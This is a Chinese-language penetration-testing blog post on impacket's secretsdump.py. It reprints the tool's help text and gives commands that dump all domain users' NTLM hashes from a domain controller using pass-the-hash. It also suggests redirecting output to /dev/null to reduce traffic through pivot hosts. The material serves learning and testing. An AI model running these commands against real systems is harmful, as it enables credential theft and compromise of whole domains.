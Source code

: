 ```yaml
---
layout: post
title: Windows hash dump之secretsdump
date: 2019-07-16 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}

在域渗透的时候经常使用impacket的secretsdump.py来获取域内主机甚至域控上的hash值，secretsdump可以通过多种方法获取{sam, secrets, cached and ntds}中保存的用户凭证。  
  
{:refdef: style="text-align: center;"}
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Windows%20hash%20dump之secretsdump/stupid-hashdump.jpg?raw=true)
{: refdef}   





图片来源于http://blog.extremehacking.org/blog/2017/06/19/make-hashdump-module-work-windows-10-sam-mode/
今天并不讲secretsdump.py的实现方法，也许某天不忙的时候会分析一下其具体实现细节。今天主要借助secretsdump.py了解一下用户凭证在windows系统中是如何存储的。
本文的主要内容：  
1、secretsdump.py的使用  
2、用户凭证在windows系统如何存储

### \#0x00 secretsdump.py的使用:
直接查看帮助是便捷且有效的方法  

``` 
secretsdump.py -h:
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

usage: secretsdump.py [-h] [-debug] [-system SYSTEM] [-bootkey BOOTKEY]
                      [-security SECURITY] [-sam SAM] [-ntds NTDS]
                      [-resumefile RESUMEFILE] [-outputfile OUTPUTFILE]
                      [-use-vss] [-exec-method [{smbexec,wmiexec,mmcexec}]]
                      [-just-dc-user USERNAME] [-just-dc] [-just-dc-ntlm]
                      [-pwd-last-set] [-user-status] [-history]
                      [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                      [-aesKey hex key] [-dc-ip ip address]
                      [-target-ip ip address]
                      target

Performs various techniques to dump secrets from the remote machine without
executing any agent there.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
                        or LOCAL (if you want to parse local files)

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -system SYSTEM        SYSTEM hive to parse
  -bootkey BOOTKEY      bootkey for SYSTEM hive
  -security SECURITY    SECURITY hive to parse
  -sam SAM              SAM hive to parse
  -ntds NTDS            NTDS.DIT file to parse
  -resumefile RESUMEFILE
                        resume file name to resume NTDS.DIT session dump (only
                        available to DRSUAPI approach). This file will also be
                        used to keep updating the session's state
  -outputfile OUTPUTFILE
                        base output filename. Extensions will be added for
                        sam, secrets, cached and ntds
  -use-vss              Use the VSS method insead of default DRSUAPI
  -exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using
                        -use-vss). Default: smbexec

display options:
  -just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified.
                        Only available for DRSUAPI approach. Implies also
                        -just-dc switch
  -just-dc              Extract only NTDS.DIT data (NTLM hashes and Kerberos
                        keys)
  -just-dc-ntlm         Extract only NTDS.DIT data (NTLM hashes only)
  -pwd-last-set         Shows pwdLastSet attribute for each NTDS.DIT account.
                        Doesn't apply to -outputfile data
  -user-status          Display whether or not the user is disabled
  -history              Dump password history, and LSA secrets OldVal

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use
                        the domain part (FQDN) specified in the target
                        parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will
                        use whatever was specified as target. This is useful
                        when target is the NetBIOS name and you cannot resolve
                        it
```
基本使用方法：
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH 
```
secretsdump.py主要从SAM、LSA secrets(包括 cached creds)和域控的NTDS.dit三处获取用户凭证，唯一的一点是不能dump LSASS进程在内存中的数据。  
导出域控所有用户hash  
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH  -just-dc-ntlm -outputfile tmp
```
secretsdump.py会把结果打印到标注输出，而渗透过程中可能经过多个跳板机，这样可能产生额外流量，为了避免这种情况，可以把输出定向到/dev/null。  
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH  -just-dc-ntlm -outputfile tmp >/dev/null
```

### \#0x01 用户凭证在windows系统如何存储:
查看微软官方的说明
![用户凭证在windows系统中的存储情况](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Windows%20hash%20dump之secretsdump/用户凭证在windows系统中的存储情况%20copy.png?raw=true) 

根据微软官网的介绍，用户凭证一般存储在SAM、LSA secrets、NTDS.DIT和LSASS进程的内存中，另外系统缓存中也有可能存在用户凭证，参见：  
[Cached Domain Credentials](https://moyix.blogspot.com/2008/02/cached-domain-credentials.html)  
[Interactive logon: Number of previous logons to cache (in case domain controller is not available)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj852209%28v%3dws.11%29)  


secretsdump可以从SAM、LSA secrets(包括 cached creds)和域控的NTDS.dit获取用户凭证，LSASS进程的内存数据通过[绕过杀软导出域内用户hash的方法记录](https://pythonpig.github.io/2018/12/13/绕过杀软导出域内用户hash方法记录/)获取。  


### 参考
* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)
* [Cached Domain Credentials](https://moyix.blogspot.com/2008/02/cached-domain-credentials.html)  
* [Interactive logon: Number of previous logons to cache (in case domain controller is not available)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj852209%28v%3dws.11%29)  
* [绕过杀软导出域内用户hash的方法记录](https://pythonpig.github.io/2018/12/13/绕过杀软导出域内用户hash方法记录/)
